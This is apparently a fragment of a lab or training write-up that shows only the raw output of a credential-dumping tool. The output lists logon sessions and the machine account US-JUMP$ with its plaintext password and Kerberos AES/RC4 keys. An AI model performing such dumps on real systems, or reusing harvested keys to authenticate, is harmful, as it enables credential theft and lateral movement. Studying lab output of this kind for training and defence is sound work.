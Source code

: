 Result:

```
Authentication Id : 0 ; 344590 (00000000:0005420e)
Session           : Interactive from 2
User Name         : UMFD-2
Domain            : Font Driver Host
Logon Server      : (null)
Logon Time        : 1/8/2021 2:16:46 AM
SID               : S-1-5-96-0-2

         * Username : US-JUMP$
         * Domain   : us.techcorp.local
         * Password : @pEWg3"x<tk[Hk> E0D>`?4v`zWs$[ULrZOAL$@k:g4y@%S.`s5>z11>A>-pLnVFNT^]Bmsk/;4(gp),s'KD /^1e:>W'nz(s>gh)*. IT1V!lv-DKQf!57e
         * Key List :
           aes256_hmac       59c2c002adcc552c74f1d521194aeecbfaff2be3c7ac662b41a5982caa6e4113
           aes128_hmac       07f7247812bc59f6608f61bc06c91b29
           rc4_hmac_nt       abff11a76a2fa6de107f0ea8251005c5
           rc4_hmac_old      abff11a76a2fa6de107f0ea8251005c5
           rc4_md4           abff11a76a2fa6de107f0ea8251005c5
           rc4_hmac_nt_exp   abff11a76a2fa6de107f0ea8251005c5
           rc4_hmac_old_exp  abff11a76a2fa6de107f0ea8251005c5

Authentication Id : 0 ; 39997 (00000000:00009c3d)
Session           : Interactive from 1
User Name         : DWM-1
Domain            : Window Manager
Logon Server      : (null)
Logon Time        : 1/8/2021 1:57:23 AM
SID               : S-1-5-90-0-1

         * Username : US-JUMP$
         * Domain   : us.techcorp.local
         * Password : @pEWg3"x<tk[Hk> E0D>`?4v`zWs$[ULrZOAL$@k:g4y@%S.`s5>z11>A>-pLnVFNT^]Bmsk/;4(gp),s'KD /^1e:>W'nz(s>gh)*. IT1V!lv-DKQf!57e
         * Key List :
           aes256_hmac       59c2c002adcc552c74f1d521194aeecbfaff2be3c7ac662b41a5982caa6e4113
           aes128_hmac       07f7247812bc59f6608f61bc06c91b29
           rc4_hmac_nt       abff11a76a2fa6de107f0ea8251005c5
           rc4_hmac_old      abff11a76a2fa6de107f0ea8251005c5
           rc4_md4           abff11a76a2fa6de107f0ea8251005c5
           rc4_hmac_nt_exp   abff11a76a2fa6de107f0ea8251005c5
           rc4_hmac_old_exp  abff11a76a2fa6de107f0ea8251005c5

Authentication Id : 0 ; 22426 (00000000:0000579a)
Session           : Interactive from 1
User Name         : UMFD-1
Domain            : Font Driver Host
Logon Server      : (null)
Logon Time        : 1/8/2021 1:57:21 AM
SID               : S-1-5-96-0-1

         * Username : US-JUMP$
         * Domain   : us.techcorp.local
         * Password : @pEWg3"x<tk[Hk> E0D>`?4v`zWs$[ULrZOAL$@k:g4y@%S.`s5>z11>A>-pLnVFNT^]Bmsk/;4(gp),s'KD /^1e:>W'nz(s>gh)*. IT1V!lv-DKQf!57e
         * Key List :
           aes256_hmac       59c2c002adcc552c74f1d521194aeecbfaff2be3c7ac662b41a5982caa6e4113
           aes128_hmac       07f7247812bc59f6608f61bc06c91b29
           rc4_hmac_nt       abff11a76a2fa6de107f0ea8251005c5
           rc4_hmac_old      abff11a76a2fa6de107f0ea8251005c5
           rc4_md4           abff11a76a2fa6de107f0ea8251005c5
           rc4_hmac_nt_exp   abff11a76a2fa6de107f0ea8251005c5
```